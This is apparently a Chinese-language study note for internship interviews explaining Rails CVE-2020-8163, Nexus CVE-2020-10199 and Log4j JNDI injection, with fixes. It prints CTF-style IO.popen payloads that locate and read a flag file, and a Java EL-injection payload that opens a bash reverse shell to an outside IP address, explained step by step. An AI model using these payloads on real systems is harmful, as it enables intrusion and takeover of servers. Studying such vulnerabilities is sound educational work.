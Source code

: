 # Ruby_on_Rails-CVE-2020-8163 远程执行漏洞

Ruby on Rails是一个web框架，使用ruby语言。

CVE-2020-8163 是 Ruby on Rails 框架的代码注入漏洞。因框架对`render`方法的`locals`参数未严格过滤，攻击者可构造恶意参数，借助`eval`执行注入代码，实现远程命令执行，如读取文件或控制服务器。

修复办法是：将locals参数转换为集合，然后减去rails框架中预留的危险方法名的集合，最后用正则表达式过滤locals参数变量名。

payload：

```
第一个 URL：IO.popen(%27find ../ -name "*flag*"%27).read，利用find命令在上级目录查找含 “flag” 的文件，定位 flag 位置。
第二个 URL：IO.popen(%27cat ../tmp/flag%27).read，通过cat命令读取已定位的../tmp/flag文件内容，获取 flag。
```

# CVE-2020-10199- Nexus 3

Nexus Repository Manager 3 是一款软件仓库。

这个漏洞的使用前提是攻击者必须拥有访问 Nexus 资源库实例的网络权限。

EL表达式用于简化访问数据和执行简单运算的操作，EL表达式执行的松散性，并且未正确过滤输入，刚好可以用来绕过正则表达式的过滤。攻击者通过构造恶意 EL 表达式注入，触发 Java 反射机制执行任意系统命令（如反弹 shell）。

```c++
''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')
```

下面逐步解析这个代码：

1. 获取`Runtime`类的`Class`对象：
   - `''.getClass().forName('java.lang.Runtime')`：`''`是一个空字符串对象，调用其`getClass()`方法获取`String`类的`Class`对象，然后使用`forName()`方法通过类的全限定名`java.lang.Runtime`获取`Runtime`类的`Class`对象。`Runtime`类在 Java 中代表运行时环境，提供了执行系统命令的功能。
2. 获取`exec()`方法：
   - `getMethods()[6]`：调用`Class`对象的`getMethods()`方法获取`Runtime`类的所有公共方法数组，然后通过索引`[6]`获取`exec()`方法（在不同的 Java 版本中，`exec()`方法在数组中的索引可能不同）。`exec()`方法用于执行系统命令。
3. 调用`exec()`方法执行命令：
   - `invoke(null)`：由于`exec()`是`Runtime`类的静态方法，所以调用`invoke()`方法时第一个参数为`null`，这样就可以获取`Runtime`类的实例并调用其`exec()`方法。
   - `exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')`：调用`exec()`方法执行反弹 shell 的命令，使目标主机主动连接到攻击者指定的 IP 地址和端口，从而让攻击者获得目标主机的控制权。

# Log4j（log for java）

Apache 是一个开源的 Web 服务器软件，广泛用于托管网站和应用。

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX守护进程。

在Log4j2中提供了**Lookups**机制，Lookups提供了一种在Log4j配置文件任意位置添加值的方法；而Lookups机制中，存在**JNDI**，在Log4j日志输出时，未对字符合法性进行严格的限制，造成JNDI协议加载的远程恶意脚本被执行，从而造成RCE。

**lookups**的主要功能就是提供另外一种方式以添加某些特殊的值到日志中

**JNDI**主要由两部分组成：Naming（命名）和Directory（目录），其中Naming是指将对象通过唯一标识符绑定到一个上下文Context，同时可通过唯一标识符查找获得对象，而Directory主要指将某一对象的属性绑定到Directory的上下文DirContext中，同时可通过名字获取对象的属性同时操作属性。

JNDI主要由JNDI API和JNDI SPI两部分组成，Java应用程序通过JNDI API访问目录服务，而JNDI API会调用Naming Manager实例化JNDI SPI，然后通过JNDI SPI去操作命名或目录服务其如LDAP， DNS，RMI等，JNDI内部已实现了对LDAP，DNS， RMI等目录服务器的操作API。

通过上面可以知道，JNDI可以实现对LADP、RMI等服务的操作，所以攻击者只需要构建一个LADP或RMI远程服务即可，让远程服务器返回恶意class。

**LADP**（Lightweight Directory Access Protocol）：顾名思义，一个轻量级的目录访问协议，用来访问目录服务（Directory Service）。那么LDAP协议作为一个访问协议，它在技术架构的表现上是一个CS架构模式：以IDaaS为例，IDaaS产品要解决的三个问题，都是会作为LDAP Client去访问LDAP Server（这里LDAP Server和Directory Service等同了），来实现功能

**RMI**（即Remote Method Invocation）是Java平台一个分布式应用程序的应用编程接口（API），它是Java Remote Method Protocol（JRMP）的实现，这个协议代表了Java语言特有的远程过程调用（RPC）系统。RMI允许一个对象通过一个网络在另外一个虚拟机上被调用，这些对象称之为远程对象。

**攻击者定义一个接口，在接口中定义数据库操作等。**
**攻击者携带lookup支持表达式进行请求服务器。**
**服务器通过log4j打印出请求信息。**
**log4j打印完成后会执行JNDI操作。**
![image-20250311220403405](实习问题.assets/image-20250311220403405.png)

解决办法：禁用使用JNDI或者升级

# CVE常见漏洞与暴露、CWE常见弱点枚举

1. 拒绝服务攻击
2. 远程代码执行
3. 缓冲区溢出
4. 内存破坏
5. SQL 注入
6. 跨站脚本攻击（XSS）
7. 目录遍历
8. HTTP 响应分割攻击